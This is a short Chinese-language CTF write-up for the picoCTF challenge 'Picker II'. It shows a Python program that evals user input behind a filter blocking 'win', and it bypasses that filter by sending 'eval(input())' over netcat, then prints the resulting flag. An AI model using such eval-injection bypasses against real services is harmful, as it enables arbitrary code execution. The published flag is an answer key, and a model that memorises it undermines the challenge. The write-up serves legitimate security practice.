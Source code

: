 ```yaml
---
icon: pen-to-square
date: 2025-01-13
tags: 
title: Picker II
category:
  - 领域
---
```

#### Description
Can you figure out how this program works to get the flag?

Additional details will be available after launching your challenge instance.
#### Hints
Can you do what `win` does with your input to the program?

---
# 00. 前言
值得一提的是本题的好评率达到了97%，没错，本题确实相当有趣，如果你是为了寻找wp，我建议你自己研究一下

# 01. 解题过程
```python
while(True):  
  try:  
    user_input = input('==> ')  
    if( filter(user_input) ):  
      eval(user_input + '()')  
    else:  
      print('Illegal input')  
  except Exception as e:  
    print(e)  
    break
```
这是主程序，关键调用了filter()验证玩家输入，然后执行玩家输入的语句并接上一个()
检验部分：
```python
def filter(user_input):  
  if 'win' in user_input:  
    return False  
  return True
```
我的思路是继续接接上一个eval
```
eval(input())
```
然后会让我们输入，这时已经调用了检验函数，我们只需输入win即可执行win()函数

获得flag的hex形式
```bash
└─# nc saturn.picoctf.net 62159
==> eval(input())
win()
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x66 0x31 0x6c 0x37 0x33 0x72 0x35 0x5f 0x66 0x34 0x31 0x6c 0x5f 0x63 0x30 0x64 0x33 0x5f 0x72 0x33 0x66 0x34 0x63 0x37 0x30 0x72 0x5f 0x6d 0x31 0x67 0x68 0x37 0x5f 0x35 0x75 0x63 0x63 0x33 0x33 0x64 0x5f 0x30 0x62 0x35 0x66 0x31 0x31 0x33 0x31 0x7d
'NoneType' object is not callable
```
flag:
```
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}
```
